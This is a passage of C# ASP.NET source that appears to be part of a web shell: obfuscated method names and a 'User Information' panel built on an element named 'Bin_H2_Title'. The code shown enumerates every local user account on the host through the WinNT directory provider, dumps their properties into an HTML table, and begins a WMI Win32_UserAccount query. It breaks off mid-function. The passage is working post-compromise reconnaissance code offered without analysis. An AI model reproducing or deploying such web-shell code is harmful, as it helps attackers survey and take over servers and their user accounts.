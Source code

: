 }
catch(Exception error)
{
oHpF();
}
}
public void PLd()
{
try
{
WICxe();
xWVQ.Visible=true;
Bin_H2_Title.InnerText="User Information &gt;&gt;";
DirectoryEntry TWQ=new DirectoryEntry("WinNT://"+Environment.MachineName.ToString());
foreach(DirectoryEntry child in TWQ.Children)
{
foreach(string name in child.Properties.PropertyNames)
{
PropertyValueCollection pvc=child.Properties[name];
int c=pvc.Count;
for(int i=0;i&lt;c;i++)
{
if(name!="objectSid" && name!="Parameters" && name!="LoginHours")
{
string bg=OKM();
TableRow tr=new TableRow();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
TableCell td=new TableCell();
td.Text=name;
tr.Controls.Add(td);
TableCell td1=new TableCell();
td1.Text=pvc[i].ToString();
tr.Controls.Add(td1);
VPa.Controls.Add(tr);
}
}
}
TableRow trn=new TableRow();
for(int x=1;x&lt;3;x++)
{
TableCell tdn=new TableCell();
tdn.Attributes["style"]="height:2px;background-color:#bbbbbb;";
trn.Controls.Add(tdn);
VPa.Controls.Add(trn);
}
}
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public void iLVUT()
{
try
{
WICxe();
xWVQ.Visible=true;
Bin_H2_Title.InnerText="User Information &gt;&gt;";
DataTable user=cCf("Win32_UserAccount");
for(int i=0;i&lt;user.Rows.Count;i++)
{